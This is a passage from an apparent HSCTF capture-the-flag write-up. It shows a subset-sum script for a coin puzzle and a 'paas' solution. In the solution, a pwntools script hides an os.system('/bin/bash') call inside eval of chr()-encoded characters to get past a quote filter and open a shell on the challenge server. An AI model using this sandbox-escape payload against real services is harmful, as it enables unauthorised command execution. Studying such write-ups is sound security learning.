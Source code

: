 ```python
        print("sum(%s)=%s" % (partial, s))
    if s >= target:
        return  # if we reach the number why bother to continue
    
    for i in range(len(numbers)):
        n = numbers[i]
        remaining = numbers[i+1:]
        subset_sum(remaining, target, partial + [n]) 

def coinsSubset(Coins, target:int):
    Coins = [int(x[1]) for x in Coins]
    return subset_sum(Coins, target)


p = """Items: 
4: 39668
5: 30932

Coins: 
5: 5500
6: 9589
9: 8857
10: 17249
12: 11088
13: 7793
15: 6513
17: 6562""" #the output goes here
Items, Coins = parseItemsCoins(p)
print(Items)
print(Coins)
coinsSubset(Coins, int(Items[0][1]))
```
I entered the input manually and used the program above to determine the best option for Insert coins.
# miscellaneous
## paas
After some trial and error, I found that `'".` is restricted to use, because of that
 I tried to use eval, and entered the malicious code via deobfuscation with chr().
I use the following code:
```python
import pwn

# import os and pop bash
e = "__import__('os').system('/bin/bash')"

# strings to decimals
n = [ord(c) for c in e]

for i in range(len(n)):
    n[i] = "chr(%s)" % n[i]

n = '+'.join(n)
n = f'eval({n})'

c = pwn.remote('paas.hsctf.com', 1337)
c.sendline(n)
c.interactive()
```
